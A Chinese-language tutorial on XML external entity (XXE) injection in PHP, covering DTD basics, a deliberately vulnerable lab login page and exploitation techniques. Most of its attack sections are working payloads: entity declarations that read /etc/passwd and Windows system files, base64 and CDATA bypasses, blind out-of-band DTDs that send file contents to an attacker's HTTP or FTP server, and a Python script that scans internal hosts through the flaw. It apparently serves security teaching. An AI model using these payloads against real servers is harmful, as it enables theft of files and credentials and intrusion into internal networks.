# XXE基础

## 1. XXE概述

XXE（XML External Entity Injection）即XML外部实体注入。漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。 下面我们主要介绍PHP语言下的XXE攻击.

### 1.1 XML基础

XML是可扩展的标记语言（eXtensible Markup Language），设计用来进行数据的传输和存储。

#### 1.1.1文档结构

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

```
<!--XML声明-->
<?xml version="1.0"?> 
<!--文档类型定义-->
<!DOCTYPE note [  <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>     <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>   <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>   <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>   <!--定义body元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

#### 1.1.2 DTD

DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。

DTD 可以在 XML 文档内声明，也可以外部引用。

DTD示例：


#### 1.1.3 DTD的声明

DTD有内部声明和外部声明两种

##### 1. 内部声明 : `<!DOCTYPE 根元素 [元素声明] >` 

```
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

##### 2. 外部声明（引用外部DTD）: `<!DOCTYPE 根元素 SYSTEM "文件名">` 

```
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "http://127.0.0.1/note.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note> 

--------------------------------------------------------------------
#http://127.0.0.1/note.dtd的内容为
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

#### 1.1.4 DTD实体

构成DTD的叫做DTD实体



- 内部实体：
- 外部实体：

内部和外部实体中，又有一般实体和参数实体

- 一般实体： 引用方式：&实体名；
- 参数实体： 引用方式：%实体名；

注意参数实体只能在DTD中申明，DTD中引用；

```
<!DOCTYPE message [
    <!ENTITY normal    "hello">     <!-- 内部一般实体 -->
    <!ENTITY % normal2 "hello">     <!-- 内部参数实体 -->
    <!ENTITY normal3 SYSTEM "http://xml.org/hhh.dtd">    <!-- 外部一般实体 -->
    <!ENTITY % normal4 SYSTEM "file:///1234.dtd">        <!-- 外部参数实体 -->
    %normal4;            <!-- 引用参数实体 -->
]>
<message>&normal;</message>    <!-- 引用参数实体 -->
```

参数实体还能嵌套定义，但需要注意的是，内层的定义的参数实体% 需要进行HTML实体编码，否则会出现解析错误。

```
<!DOCTYPE test [
    <!ENTITY % outside '<!ENTITY % files SYSTEM "file:///etc/passwd">'>
]>
<message>&files;</message>
```

## 2. XXE原理

XXE即XML外部实体注入 。和sql注入一样，进行xml修改成恶意代码后，xml解析器解析了恶意代码造成XXE。

### 2.1 利用方式

#### 方式一： 直接通过DTD外部实体声明

```
<?xml version="1.0"?>
<!DOCTYPE a[
    <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<a>&b;</a>
```

#### 方式二：通过DTD文档引入外部DTD文档中的外部实体声明

```
<?xml version="1.0"?>
    <!DOCTYPE Quan SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">

<hhh>&f;<hhh>

#DTD文件内容：
<!ENTITY f SYSTEM "file:///etc/passwd">
```

#### 方式三：通过DTD外部实体声明引入外部DTD文档中的外部实体声明

```
<?xml version="1.0"?>
<!DOCTYPE Quan[
<!ENTITY f SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">
]>

<hhh>&f;<hhh>

#Quan.dtd的外部实体声明内容：
<!ENTITY f SYSTEM "file:///etc/passwd">
```

### 2.2 XXE的分类

XXE分成了三类，正常回显XXE、报错XXE和Blind XXE

#### 一、有回显XXE

**示例代码：**

**xml.php**

```
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

**payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```



当读取的文件中有特殊符号的时候，直接读取会报错。



问题出在

```
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)

这时候我们就可以利用CDATA或者base64编码来绕过

##### 1.使用base64编码

使用base64编码进行XXE可以防止返回包验证，得到的值进行解码即可还原

payload：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test[
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/1.txt">
]>
<test>&file;</test>
```



##### 2.使用CDATA

CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记

**payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/1.txt">  
<!ENTITY % end "]]>"> 
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>

#evil.dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```



#### 二、无回显XXE（XXE盲打）

**xml.php**

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/1.txt">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://IP:9999?p=%file;'>">
```

**payload：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [ 
<!ENTITY % dtd SYSTEM "http://IP/test.dtd"> 
%dtd;%int;%send; ]>
```

注意此处test.dtd的%进行了html实体编码。%进行Unicode编码为 % 或者 %(转化成Unicode编码有两种形式，以&#后接十进制数字，&#x后接十六进制数字)



具体加载过程：

首先加载 `%dtd`
。此时会远程加载攻击者主机上的外部实体，然后加载 `%int`
。接下来加载 `%send`
 实体，此时就是关键点，服务器端返回内容（通过get查询方式会在攻击者的服务器日志中留下记录），查询的字符串 p 的值便是参数实体 file 的值，也就是读取的文件。

补充：

此处利用的是php伪协议对读取文件信息base64编码，再通过http协议发送数据，而在java中，此处利用点中，文件里如果存在换行等字符，就会导致发送失败，不能通过http协议发送，则用ftp协议。（无特殊字符的简单文件http协议也可以进行读取）

Post 包

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip/evil.xml">
%remote;]>
<root/>
```

evil.xml

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://ip:2121/%d;'>">
%c;
```

在测试主机上下载并运行xxe-ftp-server.rb，运行后会在2121端口开启ftp服务，脚本下载地址：**https://github.com/ONsec-Lab/scripts**

```
Rubyxxe-ftp-server.rb
```

### 2.3 判出此处断是否存在漏洞

遇到XML相关的交互过程，以如下步骤判断是否存在漏洞：

### **（1）检测XML是否会被解析：**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY dog "this is dog">
]>
<root>&dog;</root>
```

和注入一样，看输入的xml

如果$dog;输出了"this is dog"那就继续第二步。

**这里来个补充说明：**

**第一种情况**

数据包中发现传输了xml格式的数据，则判断出xml可能会被解析。

利用有回显payload的时候，xml标签必须和数据包中的标签一致，不然会出现无回显的情况。具体原理看下面的代码分析



**第二种情况**

发现数据包中无xml传输，也有可能存在xml解析，可以修改Content-Type的值为:application/xml;charset=UTF-8类型，然后发出xml看响应结果



### **（2）检测服务器是否支持外部实体：**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY % dog SYSTEM "http://ip:9999">
%dog;
]>
```

通过nc监听查看是否发送了请求，也可以通过dnslog来查看。





### **（3）判断是否有回显结果，无回显则使用xxe盲打**

## 3. 测试靶场

### xxe-lab

这里我们要求php版本为5.2，5.3，5.4，因为他们的libxml版本为2.7.7，2.7.8 允许加载外部实体，libxml版本在2.9.1之后，默认是不解析外部实体

**有回显的XXE利用：**

在登陆点抓一个包，插入payload

```
<?xml version="1.0"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/win.ini"> 
]> 
<user><username>&goodies;</username>
<password>yang</password></user>
```



注意点，这里必须要把获取的数据写入username标签，具体是代码中，由于获取的username标签后输出产生的XXE。



**无回显的XXE利用**：

注释掉echo和关闭错误显示



构造payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [ 
<!ENTITY % dtd SYSTEM "http://IP/test.dtd"> 
%dtd;%int;%send; ]>
```

test.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/1.txt">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://IP:9999?p=%file;'>">
```

kali开启nc监听，运行payload



靶场的代码：

```
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');//这里面因为没有xml文档所以用的是php的伪协议来获取我们发送的xml文档

try{
    $dom = new DOMDocument();//创建XML的对象
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//将我们发送的字符串生成xml文档。
    $creds = simplexml_import_dom($dom);//这一步感觉相当于实例化xml文档

    $username = $creds->username;//获取username标签的值
    $password = $creds->password;//获取password标签的值

    if($username == $USERNAME && $password == $PASSWORD){//将获取的值与前面的进行比较。...        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);//注意必须要有username这个标签，不然的话找不到username,就没有了输出了，我们也不能通过回显来获取信息了
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);//与上方相同，都会输出username的值，都可以达到我们的目的
    }    
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

## 4. HTTP 内网存活主机扫描

可以读取 etc/network/interfaces 或者 proc/net/arp 或者 etc/host 文件，这样我们就能拿到网段了



利用python2脚本探测存活主机：

```
# -*- coding: utf-8 -*-
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
#   http://192.168.202.1/xxe/php_xxe/doLogin.php 就是存在xxe的php网址
    x = requests.post('http://192.168.202.1/xxe/php_xxe/doLogin.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(129, 135):
    try:
        i = str(i)
        #此处填写网段
        ip = '192.168.202.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

结果，红框中的就是存在主机：

